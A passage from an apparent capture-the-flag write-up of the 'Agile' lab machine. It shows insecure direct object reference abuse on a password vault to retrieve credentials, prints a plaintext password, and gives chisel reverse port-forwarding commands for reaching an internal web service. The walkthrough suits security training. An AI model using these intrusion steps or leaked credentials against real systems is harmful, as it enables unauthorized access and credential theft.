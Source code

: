![image](https://user-images.githubusercontent.com/67879936/224588658-ea1285e3-a04a-4dad-9057-2867ebbca7bc.png)

using ```7``` and ```8```

Link:http://superpass.htb/vault/row/7

Link:http://superpass.htb/vault/row/8

![image](https://user-images.githubusercontent.com/67879936/224588834-404bcff1-0443-4ccc-b0f8-92d6d9779511.png)
![image](https://user-images.githubusercontent.com/67879936/224588889-f82223c6-6587-4f5a-969b-f8993e86bbf0.png)

cool, we got creds for user ```corum```, if you recall user ```corum``` was found in the /etc/passwd file we downloaded earlier. This means we can try to login to the ssh server using this credentials. We'll be using the credentials in ```row 8``` and this is because it has user ```corum``` and the name of the website is ```agile``` (which is also the name of the box we are working on).


```username:corum```          ```password:5db7caa1d13cc37c9fc2```


![image](https://user-images.githubusercontent.com/67879936/224589382-c1099339-8613-43ff-99c7-03fe60da4acb.png)

cool, we got a shell as user ```corum```. Lets go ahead and escalate our privileges.




<h2>Privilege Escalation</h2>

Running ```netstat -tuln``` I got a list of all open TCP and UDP ports on the system, along with the process ID and name that is using each port

![image](https://user-images.githubusercontent.com/67879936/224590014-2a160ffc-ff5c-4c62-8d95-0c2f8a9a521b.png)

During my enumeration I found out that port 5555 is running on a webpage similar to the webpage running on port 80. So, to access this webserver we are going to do a bit of portforwarding. We'll be using a tool called chisel to do this. Lets send the tool to the target's machine

![image](https://user-images.githubusercontent.com/67879936/224590488-9523be1e-5d63-4afb-8cdb-d2b50bb8d566.png)
![image](https://user-images.githubusercontent.com/67879936/224590532-e0ee0e2a-756c-48fc-ac36-343ce19d63f3.png)

cool, now lets go ahead and run this toool.

command:```chisel server -p 9001 --reverse (run this on your machine)```

command:```chisel client <ur ip>:9001 R:80:10.150.150.222:80 (run this on the target's machine)```

![image](https://user-images.githubusercontent.com/67879936/224591076-c9446ace-b81c-4add-b619-d45e49c0600c.png)
![image](https://user-images.githubusercontent.com/67879936/224591053-8e73902d-3906-4677-ac7e-2b4710d37d2f.png)

Now, lets navigate to the webpage

Link:http://127.0.0.1:5555

![image](https://user-images.githubusercontent.com/67879936/224591218-9b54c852-3127-4306-abe1-e4af2db3c590.png)

cool, we'll repeat the same steps we did earlier during our enumeration. That is, we'll create an account then try to view the ```/row``` directory again with the column numbers
```